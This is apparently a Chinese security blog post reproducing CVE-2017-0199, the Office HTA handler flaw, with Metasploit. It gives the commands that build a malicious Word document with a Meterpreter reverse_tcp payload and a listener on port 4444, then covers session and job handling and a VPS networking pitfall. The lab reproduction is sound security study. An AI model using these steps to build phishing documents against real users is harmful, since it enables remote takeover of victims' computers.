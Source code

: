 Title:office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（二）
Date: 2017-12-22 10:20
Category: 漏洞实践
Tags: office,漏洞,钓鱼
Slug: 
Authors: bit4woo
Summary: HTA Handler Vulnerability



上一篇已经一步一步手动复现了该漏洞，也弄清楚了一些小的疑问，本篇将使用metasploit进行复现。

### 0x0、metasploit的复现过程

```
msfupdate
msfconsole
search CVE-2017-0199
```

如果更新后找不到模块，可以直接到github上下载

https://github.com/rapid7/metasploit-framework/issues/8220

https://github.com/rapid7/metasploit-framework/pull/8254

![msf_search](img/CVE-2017-0199-msf/msf_search.png)

而后加载该模块，并且设置各项参数，比如payload等。

```
use exploit/windows/fileformat/office_word_hta
set payload windows/meterpreter/reverse_tcp
show options
run
```

![msf_options](img/CVE-2017-0199-msf/msf_run.png)

成功生成了恶意文件并监听4444端口之后，我们就可以保存msf.doc文件到本地并执行了。

```
新开一个shell然后执行
sz  /root/.msf4/local/msf.doc
```

![success](img/CVE-2017-0199-msf/success.png)

可以看到成功反弹了shell。注意，要想成功反弹shell，需要保证监听服务器和webdav服务器在运行msf.doc的主机上都可以正常访问才行。

### 0x1、关于metasploit

1. 一个监听端口可以接收多个反弹会话的。

2. sessions的操作，当前session到后台运行 `background` , 进入某个session：session session_ID

   ![session_operation](img/CVE-2017-0199-msf/session_operation.png)

3. jobs的操作，将某个job调用到前台：use exploit/xxx/xxx；将当前job调到后台：back ；杀死某个job：kill job_id

   ![job_operation](img/CVE-2017-0199-msf/job_operation.png)

   ![kill_job](img/CVE-2017-0199-msf/kill_job.png)

4. 有一个小坑：阿里云的VPS（ECS）上，所有网卡上的IP地址都是内网地址，没有外网地址（应该是有映射机制，当访问外网地址http://外网IP:8080/default.hta 会被映射到内网地址http://内网IP:8080/default.hta，验证过的），而msf绑定SRVHOSR:SRVPORT的时候似乎是根据网络来的，所以就无法绑定外网地址，上面的例子里，就无法将HTA的URL向外网开放。有前面说的映射机制，应该也能访问到才对啊，但问题是生成的msf.doc文件中，写死了要请求的URL（即内网的URL，尝试了手动更新，也未成功）。只好换个vps进行实验了。